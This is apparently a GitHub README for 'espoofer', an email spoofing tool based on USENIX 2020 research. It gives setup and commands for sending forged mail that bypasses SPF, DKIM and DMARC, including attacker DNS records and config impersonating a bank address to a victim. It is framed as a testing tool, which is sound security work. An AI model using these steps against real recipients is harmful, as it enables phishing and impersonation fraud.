



# Email-spoofing-tool

# Introduction

## We have developed this project as part of Digital Forensics. I am Anish and my team member Yashveer singh we are currently pursuing B.Tech in computer Science at KL UNIVERSITY

Email Spoofing tool is an open-source testing tool to bypass SPF, DKIM, and DMARC authentication in email systems. It helps mail server administrators and penetration testers to check whether the target email server and client are vulnerable to email spoofing attacks or can be abused to send spoofing emails.

<!-- 
 -->
<p align="center">
<kbd>

</kbd>
<br>Figure 1. A case of our spoofing attacks on Gmail (<a href="[[https://youtu.be/xuKZpT0rsd0](https://youtu.be/5ziPQEr6cj8)]">Demo video</a>)
</p>

## Why build this tool?

Email spoofing is a big threat to both individuals and organizations ([Yahoo breach](https://arstechnica.com/tech-policy/2017/03/fbi-hints-that-hack-of-semi-privileged-yahoo-employee-led-to-massive-breach/), [John podesta](https://www.cbsnews.com/news/the-phishing-email-that-hacked-the-account-of-john-podesta/)). To address this problem, modern email services and websites employ authentication protocols -- SPF, DKIM, and DMARC -- to prevent email forgery. 

Our latest research shows that the implementation of those protocols suffers a number of security issues, which can be exploited to bypass SPF/DKIM/DMARC protections. Figure 1 demonstrates one of our spoofing attacks to bypass DKIM and DMARC in Gmail. 


In this repo, we summarize all test cases we found and integrate them into this tool to help administrators and security-practitioners quickly identify and locate such security issues.

<details><summary>Please use the following citation if you do scentific research (Click me).  </summary>
<p>

*Latex version:*

```tex
@inproceedings{chen-email,
author = {Jianjun Chen and Vern Paxson and Jian Jiang},
title = {Composition Kills: A Case Study of Email Sender Authentication},
booktitle = {29th {USENIX} Security Symposium ({USENIX} Security 20)},
year = {2020},
isbn = {978-1-939133-17-5},
pages = {2183--2199},
url = {https://www.usenix.org/conference/usenixsecurity20/presentation/chen-jianjun},
publisher = {{USENIX} Association},
month = aug,
}
```

*Word version:*

Jianjun Chen, Vern Paxson, and Jian Jiang. "Composition kills: A case study of email sender authentication." In 29th USENIX Security Symposium (USENIX Security 20), pp. 2183-2199. 2020.

</p>
</details>

## Installation
- Download this tool
```
git clone https://github.com/chenjj/Email-spoofing-tool

```

- Install dependencies
```
sudo pip3 install -r requirements.txt
```
> *Python version: Python 3 (**>=3.7**).*

## Usage
espoofer has three work modes: *server* ('s', default mode), *client* ('c') and *manual* ('m'). In *server* mode, espoofer works like a mail server to test validation in receiving services. In *client* mode, espoofer works as an email client to test validation in sending services. *Manual* mode is used for debug purposes. 

<p align="center">
<br>
Figure 2. Three types of attackers and their work modes
</p>

#### Server mode
To run espoofer in server mode, you need to have: 1) an IP address (`1.2.3.4`), which outgoing port 25 is not blocked by the ISP, and 2) a domain (`attack.com`). 


1. Domain configuration

- Set DKIM public key for `attack.com`

```
selector._domainkey.attacker.com TXT  "v=DKIM1; k=rsa; t=y; p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDNjwdrmp/gcbKLaGQfRZk+LJ6XOWuQXkAOa/lI1En4t4sLuWiKiL6hACqMrsKQ8XfgqN76mmx4CHWn2VqVewFh7QTvshGLywWwrAJZdQ4KTlfR/2EwAlrItndijOfr2tpZRgP0nTY6saktkhQdwrk3U0SZmG7U8L9IPj7ZwPKGvQIDAQAB"
```

- Set SPF record for `attack.com`

```
attack.com TXT "v=spf1 ip4:1.2.3.4 +all"
```

2. Configure the tool in config.py

```
config ={
	"attacker_site": b"attack.com", # attack.com
	"legitimate_site_address": b"admin@bank.com", # legitimate.com
	"victim_address": b"victim@victim.com", # victim@victim.com
	"case_id": b"server_a1", # server_a1
}
```

You can list find the case_id of all test cases using `-l` option:

```
python3 espoofer.py -l
```

3. Run the tool to send a spoofing email

```
python3 espoofer.py
```

You can change case_id in the config.py or use `-id` option in the command line to test different cases:

```
python3 espoofer.py -id server_a1
```

#### Client mode 

To run epsoofer in client mode, you need to have an account on the target email services. This attack exploits the failure of some email services to perform sufficient validation of emails received from local MUAs. For example, `attacker@gmail.com` tries to impersonate `admin@gmail.com`. 
1. Configure the tool in config.py

```
config ={
	"legitimate_site_address": b"admin@gmail.com",  
	"victim_address": b"victim@victim.com", 
	"case_id": b"client_a1",

	"client_mode": {
		"sending_server": ("smtp.gmail.com", 587),  # SMTP sending serve ip and port
		"username": b"attacker@gmail.com", # Your account username and password
		"password": b"your_passward_here",
	},
}
```

You can list find the case_id of all test cases using `-l` option:

```
python3 espoofer.py -l
```

> Note: `sending_server` should be the SMTP sending server address, not the receiving server address.


2. Run the tool to send a spoofing email

```
python3 espoofer.py -m c
```

You can change case_id in the config.py and run it again, or you can use `-id` option in the command line:

```
python3 espoofer.py -m c -id client_a1
```

#### Manual mode

Here is an example of manual mode:

```
python3 espoofer.py -m m -helo attack.com -mfrom <m@attack.com> -rcptto <victim@victim.com> -data raw_msg_here -ip 127.0.0.1 -port 25
```

### Screenshots

1. A brief overview of test cases.

<p align="center">
<kbd>

</kbd>
</p>


Welcome to send a pull request to file your bug report here. 


## Credits

Welcome to add more test cases.


<!-- *This repo is created for the vendors to reproduce our reported issues, so this tool is not useable without additional instructions. We will update it after the affected vendors have fixed our reported bugs.*
 -->
